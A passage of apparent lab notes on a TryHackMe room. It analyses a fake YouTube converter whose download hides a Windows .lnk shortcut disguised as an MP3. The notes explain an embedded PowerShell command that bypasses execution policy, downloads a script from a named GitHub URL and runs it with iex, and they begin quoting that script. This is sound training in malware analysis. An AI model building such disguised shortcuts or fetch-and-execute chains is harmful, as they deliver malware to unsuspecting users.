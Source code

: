 Let's find out by pasting any YouTube link in the search form and pressing the "Convert" button. Then select either `mp3 or mp4` option. This should download a file that we could use to investigate. For example, we can use [https://www.youtube.com/watch?v=dQw4w9WgXcQ](https://www.youtube.com/watch?v=dQw4w9WgXcQ), a classic if you ask me.

![A screenshot presenting extraction of a zip archive.](https://tryhackme-images.s3.amazonaws.com/user-uploads/63588b5ef586912c7d03c4f0/room-content/63588b5ef586912c7d03c4f0-1731073491258.png)

You'll now see two extracted two files: `song.mp3` and `somg.mp3`.

To quickly determine the file's contents, double-click on the "Terminal" icon on the desktop then run the `file` command on each one. First, let's try checking `song.mp3`.

![](gitbook/cybersecurity/images/Pasted%20image%2020241201140254.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241201140326.png)

There doesn't seem to be anything suspicious, according to the output. As expected, this is just an MP3 file.

How about the second file `somg.mp3`? From the filename alone, we can tell something is not right. Still, let's confirm by running the `file` command on it anyway.

![](gitbook/cybersecurity/images/Pasted%20image%2020241201140345.png)

Now, this is more interesting!

The output tells us that instead of an MP3, the file is an "MS Windows shortcut", also known as a `.lnk` file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands! If you've ever seen the shortcuts on a Windows desktop, you already know what they are.

There are multiple ways to inspect `.lnk`  files to reveal the embedded commands and attributes. For this room, however, we'll use `ExifTool`, which is already installed on this machine.

![](gitbook/cybersecurity/images/Pasted%20image%2020241201140434.png)

```ad-info
What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.
```

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
```